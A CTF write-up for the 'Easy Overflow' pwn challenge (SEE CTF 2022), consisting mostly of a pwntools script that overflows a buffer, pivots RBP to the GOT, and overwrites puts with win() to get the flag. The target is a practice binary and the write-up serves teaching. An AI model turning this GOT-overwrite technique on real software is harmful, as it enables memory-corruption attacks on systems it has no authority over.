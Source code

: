 ```yaml
---
name: Easy Overflow (2022)
event: Social Engineering Experts CTF 2022
category: Pwn
description: Writeup for Easy Overflow (Pwn) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Easy Overflow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=2362 "Social Engineering Experts CTF 2022: Easy Overflow")

## Description

> I did a check on my return address. Now you shouldn't be able to control my RIP.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x4011ca
break *0x401247
continue
'''.format(**locals())

# Binary filename
exe = './easy_overflow'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Build the payload
payload = flat([
    b'A' * 32,  # Pad to stack
    # Overwrite RBP with address of got.gets()
    elf.got.gets,  # This will become got.puts
    0x401212  # Address required to meet RIP check
])

# Send the payload
io.sendlineafter(b'I will let you  overflow me.', payload)

# Write the address of win() into puts()
io.sendlineafter(b'I will give you one more chance.', flat(elf.functions.win))

# Got Flag?
io.interactive()
```
{% endcode %}

Flag: `SEE{R1P_15_K1NG_RBP_15_QU33N_31cfc2f963517cd7e1b33b84a0e6bea2}`
